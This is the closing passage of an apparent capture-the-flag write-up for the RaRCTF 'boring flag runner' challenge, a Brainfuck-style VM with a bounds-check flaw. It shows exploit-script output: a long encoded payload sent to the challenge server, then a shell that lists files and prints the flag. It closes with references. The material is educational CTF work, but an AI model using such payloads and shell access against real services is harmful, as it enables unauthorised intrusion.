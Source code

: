 ```  
usr  
var  
$ ls /challenge 1>&2  
Dockerfile  
boring-flag-checker  
build.sh  
ctf.xinetd  
flag.txt  
getprog.py  
start.sh  
[*] Got EOF while reading in interactive  
$  
[*] Interrupted  
knittingirl@piglet:~/CTF/RaRCTF/boring_flag_runner$ python3
boring_flag_runner_payload_final.py  
[+] Opening connection to 193.57.159.27 on port 28643: Done  
b'enter your program:'  
b'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@EFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF@FF@GGGGGGGGGGGGBBBBBBBBBBE@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBBGGGGGGGGGGGGGGGG@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB@E@@@@@@@@@@@@@@@@CFBBBBBBBBBBBBBBBBG@@@@@@@@@@@@@@@@AEBBBBBBBBBBBBBBBB'  
[*] Switching to interactive mode  
$ cat /challenge/flag.txt 1>&2  
rarctf{my_br41nf$%k_vm_d03snt_c4r3_f0r_s1lly_b0unds-ch3ck5_56fc255324}  
[*] Got EOF while reading in interactive  
$  
```  
Thanks for reading!

## References:

https://github.com/knittingirl/CTF-
Writeups/tree/main/pwn_challs/RaRCTF/Guessing_Game

https://esolangs.org/wiki/Brainfuck